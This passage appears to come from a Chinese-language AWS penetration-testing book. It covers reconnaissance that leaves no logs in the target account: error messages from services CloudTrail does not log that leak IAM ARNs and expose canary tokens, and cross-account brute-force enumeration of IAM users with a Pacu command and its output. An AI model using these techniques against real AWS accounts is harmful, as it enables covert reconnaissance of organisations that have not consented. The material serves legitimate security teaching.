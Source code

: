 图 5：IAM 用户路径包含 SpaceCrab，透露了它们是金丝雀令牌

该问题已报告给 Atlassian 并得到解决。问题也报告给了 AWS 本身，但被拒绝，因为他们不认为 ARN 是敏感信息。这是正确的，但用户不应该能够在不生成任何日志的情况下获取这些信息。

AWS Amplify 是另一个在 CloudTrail 中不受支持的较新的服务，它输出类似的冗长错误消息。在尝试运行`ListApps`命令而没有正确权限时返回了以下消息：

```
An error occurred (AccessDeniedException) when calling the ListApps operation: User: arn:aws:iam::000000000000:user/TestUser is not authorized to perform: amplify:ListApps on resource: arn:aws:amplify:us-west-2:000000000000:apps/* 
```

如果 AWS 服务输出类似的错误消息，并且有一些 CloudTrail 不支持的服务，这种小型攻击基本上是永恒的。同样的攻击可能适用于任何新发布的并且未被记录的服务。

即使这么少的信息对攻击者也有帮助，因为他们可以使用其他未记录的攻击向量，例如跨账户 IAM 用户/角色枚举，来收集更多信息（[`rhinosecuritylabs.com/aws/aws-iam-user-enumeration/`](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/)）。

# 通过跨账户方法绕过日志记录

正如我们刚才指出的，可以在 AWS 账户中枚举用户和角色，而无需目标账户中的任何权限或日志。我们需要的一切就是我们自己的 AWS 账户和我们目标的 AWS 账户 ID。

# 枚举用户

就像我们之前在 IAM 章节中介绍的那样，IAM 角色有一个信任策略文档，指定了哪些 IAM 资源/账户可以从中请求临时凭证。在幕后，所有 IAM 资源都是唯一创建的，IAM 角色信任策略也认可这一点。这样做的原因是，如果您指定用户`Mike`可以假定某个角色，然后删除`Mike`；理论上，攻击者可以创建另一个名为`Mike`的 IAM 用户并假定该角色。实际上，情况并非如此，因为在幕后，角色信任策略引用的是唯一用户 ID，而不仅仅是用户名。

由于在幕后将用户 ARN 转换为唯一用户 ID，IAM 不会允许您设置允许访问不存在用户的信任策略。此外，角色可以被假定为跨账户，因此可以在信任策略中指定其他账户 ID。

鉴于这两个事实，如果作为攻击者，我们拥有另一个账户的账户 ID，我们基本上可以暴力破解其账户中存在哪些用户。这个过程已经在一个名为`iam__enum_users`的 Pacu 模块中自动化。使用 Pacu 打开并配置后，我们可以运行以下命令来枚举具有 ID`000000000000`的账户中的 IAM 用户：

```
run iam__enum_users --account-id 000000000000 --role-name TestRole 
```

`TestRole`是在我的账户中创建的 IAM 角色。Pacu 使用该角色来更新信任策略文档以进行枚举，因此很重要的是使用您自己的 AWS 访问密钥运行此模块，并提供具有更新访问权限的角色名称。

运行该模块时，您自己的 AWS CloudTrail 日志将被`iam:UpdateAssumeRolePolicy`日志淹没，但目标账户将看不到任何东西，从而允许您悄悄地收集有关目标环境的信息。

使用自定义单词列表，我们能够从 ID 为`000000000000`的目标账户中枚举出两个用户`Alexa`和`Test`（这只是一个演示，对您没有用，因为`000000000000`不是真实的 AWS 账户）。Pacu 模块的输出看起来像这样：

```
Pacu (Demo:imported-default) > run iam__enum_users --account-id 000000000000 --role-name TestRole
  Running module iam__enum_users...
[iam__enum_users] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name!

[iam__enum_users] Targeting account ID: 000000000000

[iam__enum_users] Starting user enumeration...

[iam__enum_users]   Found user: arn:aws:iam::000000000000:user/Alexa
[iam__enum_users]   Found user: arn:aws:iam::000000000000:user/Test

[iam__enum_users] Found 2 user(s):

[iam__enum_users]     arn:aws:iam::000000000000:user/Alexa
[iam__enum_users]     arn:aws:iam::000000000000:user/Test

[iam__enum_users] iam__enum_users completed.

[iam__enum_users] MODULE SUMMARY:

  2 user(s) found after 7 guess(es).
```
